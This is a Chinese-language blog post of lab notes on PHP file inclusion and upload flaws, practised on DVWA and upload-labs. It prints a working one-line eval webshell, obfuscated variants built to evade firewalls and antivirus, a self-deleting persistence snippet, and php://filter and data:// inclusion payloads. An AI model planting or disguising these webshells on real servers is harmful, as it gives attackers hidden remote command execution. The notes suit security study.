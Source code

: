 ```yaml
---
title: PHP文件上传漏洞
date: 2022-01-17 22:05:03
tags:
      - PHP
      - 安全
      - 靶场练习
categories:
      - 安全
description:
keywords:

---
```


# PHP INCLUDE

靶场使用dvwa和upload lab



如果要使用这个漏洞一定要确保php.ini下的包含如下配置:

>php.ini
>allow_url_include=On
>允许文件包含

phpstudy的操作方法如下



![image-20220120165602813](D:\Code\pojo\Blog\BlogHexo\public\img\PHPinclude-1.png)

然后打开的文件夹即可设置



#### 一句话木马

搞定配置后我们先介绍下一句话木马，一般这两个连着用

一句话木马就是上传一个文件然后让这个文件可以执行php命令，一般采用的函数如下：

>system,exec,eval,assert,shell_exec,popen,proc_popen,passthru

上面这些都是可以执行命令的还有几个

write写文件,preg_replace替换并执行代码,substr_replace

base64_decode进行base64解密



下面是一句话木马格式:

> <?php eval($_POST['cmd']); ?>
>
> 然后访问这个文件,并且用post传递cmd执行命令
>
> POST提交cmd=phpinfo(); //这个用来测试是不是上传成功

##### 免杀

有可能我们上传的文件被防火墙处理了

>==用加密后的eval进行解码执行==
>
><?php 
>//assert的base64加密结果
>$a = base64_decode("YXNzZXJ0");
>$a($_POST['cmd']);
>
>?>
>
>==使用拼接的eval==
>
><?php 
>//assert
>$a="e"."v";
>$b="a"."l";
>$c=$a.$b;
>$c($_POST['cmd']);
>
>?>
>
>==使用替换的方式来进行过滤==
>
><?php 
>function fun(){
>  return $_POST['cmd'];
>}
>//使用正则表达式来执行
>//匹配第三个参数"haha"，正则匹配的内容就是haha，如果匹配到了，替换为fun()函数，并且e（当作php来执行）
>//@不让php输出错误，增加隐蔽功能
>@preg_replace("/haha/e", fun(), "haha")
>
>?>

还有一些其他的函数

>//运行程序只有把程序结束才能删除该文件
>ignore_user_abort(true);
>//设置时间
>set_time_limit(0);
>//自删
>unlink(__FILE__);

##### 一句话木马防御

防御方法：
重启php服务器，可以删除
使用竞争写入
创建一个.index.php名字的文件夹





### dvwa练习



使用伪协议

> file:// 访问本地文件系统
> http:// 访问http网址
> ftp:// 访问ftp服务器
> php:// 访问输入输出流
> zlib:// 访问压缩流
> data:// 访问数据流
> phar:// php归档
> rar:// 访问rar文件
> ogg:// 访问音频
> expect:// 交互式流

dvwa----low难度

![image-20220121090215375](D:\Code\pojo\Blog\BlogHexo\public\img\php_include-dvwa-1.png)

可以看出来直接使用的page=.....

这时候先用伪协议试一试

![image-20220121090335305](D:\Code\pojo\Blog\BlogHexo\public\img\php_include-dvwa-2.png)

发现成功了



dvwa-medium

同样使用上面的方法发现通过

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```

通过源码可以看出,过滤了协议,和不允许目录遍历



dvwa-high

可以使用file去使用路径

![image-20220121091429508](D:\Code\pojo\Blog\BlogHexo\public\img\php_include-dvwa-3.png)



```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

可以发现只能使用file开头所以只能使用这个伪协议



看看impossible

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

他只包含这几个文件,如果我们可以替换这几个文件那么也可以破解



##### 老师的做法

>第一种php://filter/read=convert.base64-encode/resource=./index.php
>
>第二种我和老师做的一样
>
>第三种data://text/plain,<?php phpinfo()?>
>data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=



我常用的方法

第一能不能上传文件,上传文件的话直接进行包含使用

第二能不能使用伪协议,能够使用哪种伪协议

